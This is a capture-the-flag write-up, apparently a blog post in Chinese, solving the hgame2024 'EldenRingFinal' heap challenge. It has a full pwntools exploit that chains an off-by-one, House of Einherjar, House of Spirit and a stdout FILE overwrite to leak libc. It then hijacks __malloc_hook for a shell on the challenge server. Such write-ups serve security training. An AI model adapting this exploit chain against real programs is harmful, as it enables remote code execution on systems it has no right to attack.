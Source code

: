 ```yaml
---
title: hgame2024 week4 - EldenRingFinal
date: 2024/2/28 18:46:00
tags:
    - IO arb write
    - heap - unsortedbin
    - off-by-one
    - House of Einherjar
    - House of Spirit
    - libc2.23
excerpt: 通过利用堆重叠和off-by-one漏洞，修改glibc的stdout指针以泄露libc地址，并最终利用__malloc_hook执行OneGadget。
---
```


~~标题依旧是没活~~  
{% note %}
you need to learn some FILE IO knowlegde first
{% endnote %}

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO |Full  |
|Canary|on    |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## 解题思路

众所周知，`.bss`段上存在`stdout`, `stdin`, `stderr`三个指针指向glibc中的`IO_FILE`，
又知修改`_IO_2_1_stdout_`的`_IO_write_base`，将其覆写为小于`_IO_write_ptr`的值，
可以在执行`puts`等函数时输出从base到ptr的字节，从而在没有`show`的情况下泄露libc

由于没开PIE，我们可以先利用Off-by-One打 **House of Einherjar** 造成Heap Overlap，以进行 Arbitrary Alloc，
利用字节错位分配堆块到`stdout`地址低处，打 **House of Spirit** 伪造堆块并修改`stdout`，
使其指向`_IO_2_1_stdout_`低地址处字节错位  
然后依次将堆块分配到伪造的堆块、`_IO_2_1_stdout_`低地址处（在`_IO_2_1_stderr_`中），
然后覆写`_IO_2_1_stderr_`结构体直到覆写`_IO_2_1_stdout_`的`_flags`为`0xfbad1800`，
以及其`_IO_write_ptr`为`_IO_2_1_stdout_`的`_chain`的地址（指向`_IO_2_1_stdin_`），
这样，在`add_note`结束时运行`puts("success!")`的时候就会泄露出libc（即`_IO_2_1_stdin_`的地址）  
要注意的是远程地址有偏移，在修改`stdout`时，由于需要修改2个字节，因此要爆破1/16的概率

> 一开始我借`stdout`为跳板，改`stdin`为0(prev_size)，想打`stderr`，结果发现，`scanf`会用到`stdin`！
> 也就是在执行`scanf`的时候直接SIGSEGV了，于是我就倒着找，在`stdout`之前的只读段中找跳板（libc非0的最高字节），
> 由于malloc时不会写入数据，因此这么做不会报错

在leak了之后，恢复堆结构，再打 **House of Einherjar** ，分配到`&__malloc_hook - 0x23`的位置写OneGadget即可

## EXPLOIT

```python
from pwn import *
import inspect
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./eldering4')
        if lo & 2:
            gdb.attach(sh, gdbscript='p /x &_IO_2_1_stdout_')
    else:
        sh = remote('139.224.232.162', 31630)
    libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.23-0ubuntu3_amd64/libc.so.6')
    elf = ELF('./eldering4')

    def eofHandler():
        warn(f'eof detected! running line {inspect.stack()[2][2]}') # print the line currently running
        if sh.can_recv():
            info(str(sh.recv()))
        sh.close()
        return None

    def addPage():
        sh.sendlineafter(b'>', b'1')

    def delPage(page:int):
        sh.sendlineafter(b'>', b'2')
        sh.sendlineafter(b'page', str(page).encode())

    def addNote(page:int, size:int, content:bytes=b'\n') -> bytes:
        sh.sendlineafter(b'>', b'3')
        sh.sendlineafter(b'to?\n>', str(page).encode())
        sh.sendlineafter(b'size:\n>', str(size).encode())
        sh.sendafter(b'tent:\n>', content)
        try:
            ret = sh.recvuntil(b'success!', False, 1)
        except EOFError:
            return eofHandler()
        if not ret:
            return eofHandler()
        elif ret[:1] == b'\n': # sometimes there is a '\n', sometimes not
            ret = ret[1:]
        return ret

    def delNote(page:int, note:int):
        sh.sendlineafter(b'>', b'4')
        sh.sendlineafter(b'>', str(page).encode())
        sh.sendlineafter(b'>', str(note).encode())

    chunkHead = elf.symbols['stdout'] - 0x2b # byte misalignment
    wStdoutOffset = (libc.symbols['_IO_2_1_stdout_'] - 0x43) & 0xfff
    if lo & 4:
        bruteByte = int(input('input last WORD of &_IO_2_1_stdout_: 0x'), 16) & 0xf000
    else:
        bruteByte = 0x4000
    wStdoutOffset += bruteByte
    bStdoutChain = (libc.symbols['_IO_2_1_stdout_'] + 0x68) & 0xff

    # alloc some 0x31 chunks in case allocations of structs influence our work
    addNote(0, 0x20) # 1
    addNote(0, 0x20) # 2
    addNote(0, 0x20) # 3
    addNote(0, 0x20) # 4
    addNote(0, 0x20) # 5
    delNote(0, 1)
    delNote(0, 2)
    delNote(0, 3)
    delNote(0, 4)
    delNote(0, 5)

    # house of einherjar #1, alloc to stdout - 0x2b to modify stdout
    addNote(0, 0x88) # 1
    addNote(0, 0x68) # 2
    addNote(0, 0x88) # 3
    addNote(0, 0x8) # 4 guard chunk, preventing chunks from being merged into top chunk
    delNote(0, 1)                                       # release in advance
    delNote(0, 2)
    addNote(0, 0x68, b'0'*0x60 + p64(0x100) + p8(0x90)) # 5 zero out PREV_INUSE of next chunk
    delNote(0, 3)                                       # cause heap overlap
    delNote(0, 5)                                       # now chunk 5 is in unsorted bin and fastbin
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead)) # 5 mod chunk 5's fd in fastbin
    addNote(0, 0x68) # 6 chunk 5 in fastbin
    addNote(0, 0x68, b'\0'*0x3 + p64(0)*2 + p64(0x71) + p16(wStdoutOffset)) # 7 alloc below stdout, force a chunk and mod stdout, 1/16 chance
    delNote(0, 5)
    delNote(0, 6)                                       # restore heap layout (like line 80)

    # house of einherjar #2, alloc to stdout and mod _IO_write_base
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(chunkHead + 0x1b)) # 8
    addNote(0, 0x68) # 9
    addNote(0, 0x68) # 10
    ret = addNote(0, 0x68, b'\0'*0x33 + p64(0xfbad1800) + p64(0)*3 + p8(bStdoutChain)) # 11
    if ret is None:
        return 0

    stdin = u64(ret[:6] + b'\0\0')
    libcBase = stdin - libc.symbols['_IO_2_1_stdin_']
    success(f'\x1b[33mleak libcBase: {hex(libcBase)}\x1b[0m')
    mallocHook = libcBase + libc.symbols['__malloc_hook']
    ogg = libcBase + 0xf0897

    # house of einherjar #3, alloc to __malloc_hook and write one gadget
    delNote(0, 9)
    delNote(0, 8) # restore heap layout
    addNote(0, 0x98, b'0'*0x88 + p64(0x71) + p64(mallocHook - 0x23)) # 12
    addNote(0, 0x68) # 13
    addNote(0, 0x68, b'\0'*0x13 + p64(ogg)) # 14
    addPage() # trigger mallocHook

    sh.clean()
    sh.interactive()
    return 1
```
